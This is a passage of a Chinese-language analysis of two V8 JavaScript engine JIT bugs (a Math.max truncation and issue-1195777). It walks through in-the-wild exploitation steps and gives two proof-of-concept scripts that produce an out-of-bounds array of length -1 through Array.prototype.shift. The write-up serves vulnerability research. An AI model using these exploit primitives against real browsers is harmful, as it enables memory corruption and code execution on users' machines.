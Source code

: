 但是调试的时候无法断到此处，先留个坑在这。。。

`Math.max(0, x, -1)`的结果被truncate成了Signed32，导致会计算出错误的结果

## 漏洞利用

经过上面的分析，这两个漏洞都能使我们获得一个错误的值为1的变量。通过分析在野利用的exp，利用步骤为：

- 用该错误的变量作为长度创建一个Array
- 通过`Array.prototype.shift`来使上一步创建的Array的长度变成0xFFFFFFFF

第二步的利用方法在4月份的时候也被谷歌修了：https://chromium.googlesource.com/v8/v8/+/d4aafa4022b718596b3deadcc3cdcb9209896154

poc1:

```javascript
function foo() {
	var x = (_arr[0] ^ 0) + 1;
	x = Math.abs(x);
	x -= 0x7fffffff;
	x = Math.max(x, 0);
	x -= 1;
	if(x==-1) x = 0;
	var arr = new Array(x);
    arr.shift();
    let a = [1.1,2.2,3.3]; 
    return [arr,a];
}

for(var i = 0;i < 100000;i++)
    foo(false);
// gc();gc();
var [oob_arr,corrupt_arr] = foo(true);
console.log(oob_arr.length);			// -1
```

poc2：

```javascript
// use issue-1195777
function foo(flag){
    let x = -1;
    if(flag){
        x = 0xFFFF_FFFF;
    }
    x = Math.sign(0 - Math.max(0,x,-1));
    var arr = new Array(x);
    arr.shift();
    let a = [1.1,2.2,3.3]; 
    return [arr,a];
}
for(var i = 0;i < 100000;i++)
    foo(false);
var [oob_arr,corrupt_arr] = foo(true);
console.log(oob_arr.length);			// -1
```
